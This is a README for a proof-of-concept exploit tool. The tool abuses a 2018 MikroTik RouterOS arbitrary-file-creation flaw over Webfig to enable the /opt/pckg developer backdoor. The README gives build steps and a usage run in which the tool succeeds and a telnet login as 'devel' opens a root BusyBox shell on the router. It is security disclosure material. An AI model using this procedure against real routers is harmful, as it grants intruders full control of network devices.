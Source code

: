 # HackerFantastic Set Tracefile PoC over Webfig

In December of 2018, [@HackerFantastic](https://twitter.com/hackerfantastic) dropped a [zero day](https://seclists.org/fulldisclosure/2018/Dec/28) that allows authenticated users to create arbitrary files on MikroTik's RouterOS. HackerFantastic pointed out that this was a create way to create the backdoor file on versions 3.x through 6.41.4. HF's PoC only showed how to manually exploit this vulnerability though. This PoC will automatically do it over the router's Webfig interface.

This specific implementation only enables the /opt/pckg backdoor (6.41 - 6.42.0).

## What are the build dependencies?

This requires:

* Boost 1.66 or higher
* cmake

## How do I build this jawn?

Just normal cmake. Try this:

```sh
mkdir build
cd build
cmake ..
make
```

Resolve dependencies as needed.

## Usage Example

```sh
albinolobster@ubuntu:~/routeros_internal/poc/hf_tracefile_www/build$ ./hf_tracefile_www -i 172.20.10.13 -p 80 -u admin --password lolwat
Success!
albinolobster@ubuntu:~/routeros_internal/poc/hf_tracefile_www/build$ telnet -l devel 172.20.10.13
Trying 172.20.10.13...
Connected to 172.20.10.13.
Escape character is '^]'.
Password: 


BusyBox v1.00 (2018.04.05-06:39+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

# cat /rw/logs/VERSION 
v6.41.4 Apr/05/2018 12:23:55
```